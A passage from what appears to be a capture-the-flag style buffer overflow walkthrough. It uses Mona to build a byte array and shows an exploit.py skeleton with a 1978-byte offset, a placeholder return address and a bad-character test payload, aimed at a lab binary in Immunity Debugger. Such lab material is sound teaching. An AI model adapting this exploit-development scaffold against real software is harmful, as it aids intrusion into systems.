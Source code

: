 We use Mona to create a file, called bytearray.bin, that contains the same list of character first:

```text
!mona bytearray -b "\x00"
```

![bofprep-bytearray](/assets/images/2021-03-09-22-36-00.png)

Then we go to our exploit.py script and add them as a payload:

```text
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)  
 
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
```

Close and restart ocsp.exe, make sure you run it in Immunity. Go to Kali and run the script then back to Immunity to look for bad chars. First find the value of the ESP register:

![bofprep-esp](/assets/images/2021-03-09-22-42-15.png)
